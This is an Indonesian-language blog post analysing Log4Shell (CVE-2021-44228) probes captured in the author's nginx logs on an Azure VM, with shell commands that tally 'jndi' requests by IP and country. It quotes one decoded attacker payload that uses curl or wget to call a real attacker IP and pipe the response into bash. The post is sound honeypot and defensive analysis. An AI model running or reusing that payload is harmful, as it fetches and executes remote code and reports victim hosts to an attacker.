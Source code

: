 ```yaml
---
layout: post
published: true
title: nginx log terkait log4j/ log4shell
author: admin
comments: true
date: '2021-12-23 22:00'
categories:
  - vuln
  - nginx
  - log
---
```

#### intro

log4j/ log4shell adalah sebuah vuln yang cukup menghebohkan di akhir tahun ini, hal ini karena aplikasi logging ini cukup banyak di pakai di software OSS, serta vuln. nya yang cukup parah.
salah satu script logging memiliki kelemahan yang membuat attacker bisa menjalankan perintah dari jauh (RCE) dengan mengirimkan parameter tertentu ke service yang menjalankan j4log tersebut.
tulisan ini memperlihatkan beberapa exploitasi yang tertangkap di nginx log milik penulis di salah satu penyedia jasa cloud.
<!--more-->
#### informasi terkait log4j/ log4shell
cara kerja exploit: ![log4j](/images/log4j.jpg)

informasi cve-nya: [mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

#### nginx di azure
beberapa hari setelah berita log4j ramai di jagat infosec, dan karena masih terdapat sisa credit azure, maka penulis menjalankan aplikasi nginx di salah satu vm di azure.
sebenarnya penulis juga menjalankan inetsim, untuk mencoba peruntungan pada port lain, namun log inetsim sangat sedikit (jarang di akses), dan mungkin nanti dilakukan update pada tulisan ini setelah inetsim lebih laku.
hasil dari log selama beberapa hari tersebut membuat kita bisa mempelajari lebih jauh serangan yang dilakukan. berikut beberapa hasilnya:

1. ip berdasarkan request terbanyak yang memuat string "jndi"
```bash
cat access.log* | grep -i jndi |awk '{print $1}'| sort | uniq -c | sort -rn
```
![topip](/images/log4j2.PNG)

2. menambahkan negara ke list ip pada nomor sebelumnya
```bash
cat top_ip_jndi.txt | while read amt ip;do country=$(geoiplookup $ip | awk -v FS="(GeoIP Country Edition: |,)" {print }); echo $amt $ip $country; done;
```
![topipwithcountry](/images/log4j3.PNG)

3. melihat rincian string exploit
```bash
cat access.log* | grep -i jndi |awk '{print $7}'| sort | uniq -c | sort -rn
```
![strings](/images/log4j1.PNG)

dengan merefer ke gambar pada bagian awal, kita dapat melihat bahwa serangan ini cukup sederhana. attacker mengirimkan string lookup ke sebuah server yang dikuasai, reply dari lookup tersebut akan di eksekusi oleh server target (RCE).
namun terlihat pada gambar diatas, kebanyakan serangan tersebut hanya bertujuan recon/ mengetahui apakah server vulnerable, dan bukan  merupakan RCE.
string yang paling banyak ditemui (urutan pertama) di-encode dengan base64, yang bila di-decode menampilkan:
```bash
(curl -s 195.54.160.149:5874/[targetsvr]:80||wget -q -O- 195.54.160.149:5874/[targetsvr]:80)|bash
```
secara sederhana mengirimkan alamat [targetsvr] ke resources yang dikuasai penyerang (195.54.160.149) dengan curl/ wget.

#### penutup
walaupun cukup heboh, nampaknya tidak terlalu banyak juga penyerang yang memanfaatkan log4j. Mungkin juga ada attacker yang ketika mengenali versi nginx yang saya jalankan, dan memutuskan tidak perlu mengirimkan string "jndi" sehingga saya tidak mendeteksinya.
sudah terdapat beberapa langkah mitigasi di dunia maya, sehingga bila anda terdampak, sangat disarankan melakukan mitigasi.
log dari inetsim sendiri akan saya update bila tidak terlalu malas.
